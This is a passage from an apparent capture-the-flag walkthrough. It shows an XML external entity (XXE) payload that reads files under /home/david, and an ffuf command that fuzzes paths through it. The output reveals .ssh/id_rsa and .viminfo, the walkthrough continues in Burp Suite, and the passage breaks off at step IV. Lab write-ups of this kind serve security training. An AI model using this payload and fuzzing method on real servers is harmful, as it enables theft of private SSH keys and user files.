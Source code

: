 ```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE details [
		<!ENTITY myxxe SYSTEM "file:///home/david">
]>
<details><email>&myxxe;</email><password>user2025</password></details>" > xxe_rq.txt
```

*II. Using ffuf:*

```bash
ffuf -ic -c -request-proto http -request xxe_rq.txt -w /usr/share/seclists/Discovery/Web-Content/quickhits.txt -fs 85
```

**OUTPUT**

```bash
.profile                [Status: 200, Size: 892, Words: 138, Lines: 28, Duration: 126ms]
.ssh/id_rsa             [Status: 200, Size: 2687, Words: 17, Lines: 39, Duration: 110ms]
.ssh/id_rsa.pub         [Status: 200, Size: 653, Words: 13, Lines: 2, Duration: 141ms]
.viminfo                [Status: 200, Size: 10157, Words: 749, Lines: 290, Duration: 138ms]
```

*III. Let´s go back to Burp Suite and read `.viminfo`, it might have info of user:*

![](/assets/images/Pasted_image_20250217125846.png)

*IV. Again in Burp Suite:*
